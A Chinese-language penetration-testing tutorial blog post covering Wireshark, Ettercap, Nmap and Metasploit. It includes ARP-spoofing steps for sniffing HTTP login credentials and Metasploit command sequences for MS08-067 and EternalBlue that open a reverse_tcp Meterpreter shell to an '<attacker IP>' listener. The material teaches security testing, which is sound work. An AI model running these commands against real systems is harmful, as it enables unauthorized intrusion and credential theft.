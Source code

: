 ```yaml
---
layout: post
title: "[渗透测试]—5.3 网络渗透测试技术和工具"
date: "2023-06-28T01:24:55.918Z"
---
```

\[渗透测试\]—5.3 网络渗透测试技术和工具
========================

在本章节中，我们将学习一些常用的网络渗透测试技术和工具，如Wireshark、Ettercap等。我们会尽量将内容讲解得详细、通俗易懂，并提供尽可能多的实例。

### 5.1 Wireshark

Wireshark是一款免费的开源数据包分析器，可以实时或离线捕获、分析和解码网络数据包。Wireshark可以帮助我们识别网络中的异常流量、理解应用程序的通信过程、调试网络协议等。

**安装Wireshark：**

在Debian/Ubuntu系统上，可以使用以下命令安装Wireshark：

    sudo apt-get install wireshark
    

在其他操作系统上，请访问[Wireshark官网](https://www.wireshark.org/download.html) 下载并安装。

**使用Wireshark捕获数据包：**

1.  打开Wireshark，选择一个要监控的网络接口。
    
2.  点击“开始捕获”按钮，Wireshark将开始捕获数据包。
    
3.  在捕获过程中，可以使用“显示过滤器”来过滤感兴趣的数据包。例如，要查看所有HTTP请求，可以输入`http.request`。
    
4.  停止捕获后，可以点击数据包查看详细信息，并使用Wireshark的解码器分析协议。
    

**实例：使用Wireshark分析HTTP请求：**

1.  开始捕获数据包，并访问一个HTTP网站，如`http://example.com`。
    
2.  在Wireshark中输入显示过滤器`http.request`，过滤出HTTP请求。
    
3.  选择一个HTTP请求数据包，查看详细信息和协议解码。
    

通过分析HTTP请求，我们可以了解请求方法、目标URL、请求头等信息。这对于理解应用程序的通信过程和调试网络协议非常有帮助。

### 5.2 Ettercap

Ettercap是一款开源的网络嗅探和中间人攻击工具。它可以实现ARP欺骗、SSL/TLS中间人攻击、数据包捕获和分析等功能。

**安装Ettercap：**

在Debian/Ubuntu系统上，可以使用以下命令安装Ettercap：

    sudo apt-get install ettercap-graphical
    

在其他操作系统上，请访问[Ettercap官网](https://www.ettercap-project.org/downloads.html) 下载并安装。

**使用Ettercap执行ARP欺骗和中间人攻击：**

1.  打开Ettercap，选择“统一嗅探”。
    
2.  选择一个要监控的网络接口。
    
3.  使用“主机列表”扫描目标网络，并选择要攻击的目标设备和网关。
    
4.  启用“ARP欺骗”插件，并开始嗅探。
    
5.  在嗅探过程中，可以使用Ettercap的数据包捕获和分析功能，或将数据包转发给其他工具（如Wireshark）进行分析。
    

**实例：使用Ettercap嗅探HTTP登录凭证：**

1.  使用Ettercap执行ARP欺骗和中间人攻击，嗅探目标设备的网络流量。
    
2.  当目标设备访问一个HTTP登录页面并提交登录凭证时，使用Ettercap捕获HTTP POST请求。
    
3.  分析HTTP POST请求，提取出用户名和密码字段。
    

通过嗅探HTTP登录凭证，我们可以了解应用程序的认证机制，从而找到可能的安全漏洞。

请注意，这些示例仅用于教育目的。在实际环境中进行网络渗透测试时，请确保遵循法律法规和获得适当的授权。

### 5.3 Nmap

Nmap（网络映射器）是一款开源的网络扫描工具，可以用于发现目标网络中的主机、服务、操作系统等信息。它可以帮助我们识别目标设备的开放端口和运行的服务，从而找到可能的攻击点。

**安装Nmap：**

在Debian/Ubuntu系统上，可以使用以下命令安装Nmap：

    sudo apt-get install nmap
    

在其他操作系统上，请访问[Nmap官网](https://nmap.org/download.html) 下载并安装。

**使用Nmap进行端口扫描：**

1.  打开终端，输入以下命令进行端口扫描：

    nmap -p 1-65535 <target IP>
    

2.  Nmap将扫描目标IP的所有端口，并报告开放的端口和运行的服务。

**实例：使用Nmap扫描开放的HTTP服务：**

1.  使用Nmap对目标IP进行端口扫描：

    nmap -p 80,443 <target IP>
    

2.  查看扫描结果，找出运行HTTP（80端口）或HTTPS（443端口）服务的设备。

通过扫描开放的HTTP服务，我们可以找到目标网络中可能存在的Web应用程序，进一步评估其安全性。

### 5.4 Metasploit

Metasploit是一款强大的渗透测试框架，包含了大量的漏洞利用模块、辅助模块、载荷、监听器等功能。Metasploit可以帮助我们自动化渗透测试过程，快速发现并利用目标设备的安全漏洞。

**安装Metasploit：**

在Debian/Ubuntu系统上，可以使用以下命令安装Metasploit：

    sudo apt-get install metasploit-framework
    

在其他操作系统上，请访问[Metasploit官网](https://www.metasploit.com/download) 下载并安装。

**使用Metasploit执行渗透测试：**

1.  打开Metasploit控制台，输入以下命令：

    msfconsole
    

2.  使用`search`命令搜索感兴趣的漏洞利用模块，如：

    search type:exploit platform:windows smb
    

3.  使用`use`命令选择一个漏洞利用模块：

bash

Copy

    use exploit/windows/smb/ms08_067_netapi
    

4.  使用`show options`命令查看模块选项，并使用`set`命令配置必要的选项：

    show options
    set RHOST <target IP>
    

5.  使用`exploit`命令执行漏洞利用：

    exploit
    

6.  如果漏洞利用成功，我们将获得目标设备的控制权，如Meterpreter会话。

**实例：使用Metasploit利用EternalBlue漏洞：**

1.  使用Nmap扫描目标设备的SMB服务：

    nmap -p 445 --script smb-vuln-ms17-010 <target IP>
    

2.  如果目标设备存在EternalBlue漏洞，使用Metasploit执行渗透测试：

    msfconsole
    use exploit/windows/smb/ms17_010_eternalblue
    set RHOST <target IP>
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    set LHOST <attacker IP>
    exploit
    

3.  如果漏洞利用成功，我们将获得目标设备的Meterpreter会话，可以执行进一步的攻击和渗透测试。

请注意，这些示例仅用于教育目的。在实际环境中进行网络渗透测试时，请确保遵  
推荐阅读：

[https://mp.weixin.qq.com/s/dV2JzXfgjDdCmWRmE0glDA](https://mp.weixin.qq.com/s/dV2JzXfgjDdCmWRmE0glDA)

[https://mp.weixin.qq.com/s/an83QZOWXHqll3SGPYTL5g](https://mp.weixin.qq.com/s/an83QZOWXHqll3SGPYTL5g)

![file](https://img2023.cnblogs.com/other/606533/202306/606533-20230628083906359-455207726.jpg)